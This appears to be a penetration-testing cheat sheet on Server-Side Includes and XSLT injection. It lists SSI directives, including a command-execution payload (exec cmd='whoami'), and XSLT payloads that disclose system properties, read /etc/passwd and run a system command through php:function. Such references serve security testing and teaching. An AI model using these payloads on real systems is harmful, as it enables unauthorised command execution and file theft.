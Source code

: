 ﻿### **SSI Injection (Server-Side Includes)**

#### Directives

| Directive | Example |
| ----------------------- | ---------------------------------------------------- |
| Print variables | `<!--#printenv -->` |
| Change config | `<!--#config errmsg="Error!" -->` |
| Print specific variable | `<!--#echo var="DOCUMENT_NAME" var="DATE_LOCAL" -->` |
| Execute command | `<!--#exec cmd="whoami" -->` |
| Include web file | `<!--#include virtual="index.html" -->` |
| | |
| | |


### **XSLT Injection**

#### Elements

|Element|Description|
|---|---|
|`<xsl:template>`|Defines a template for a specific XML path via`match` attribute.|
|`<xsl:value-of>`|Extracts the value of an XML node specified in`select`.|
|`<xsl:for-each>`|Loops over XML nodes specified in`select`.|
|`<xsl:sort>`|Sorts elements by a node (`select`) and order (`order`).|
|`<xsl:if>`|Tests conditions on a node via`test` attribute.|

#### Injection Payloads

| Type | Example |
| -------------------------- | ----------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------------- |
| **Information Disclosure** | `<xsl:value-of select="system-property('xsl:version')" />` <br>`<xsl:value-of select="system-property('xsl:vendor')" />` <br>`<xsl:value-of select="system-property('xsl:vendor-url')" />` <br>`<xsl:value-of select="system-property('xsl:product-name')" />` <br>`<xsl:value-of select="system-property('xsl:product-version')" />` |
| **LFI** | `<xsl:value-of select="unparsed-text('/etc/passwd', 'utf-8')" />` <br>`<xsl:value-of select="php:function('file_get_contents','/etc/passwd')" />` |
| **RCE** | `<xsl:value-of select="php:function('system','id')" />` |
| | |
| | |
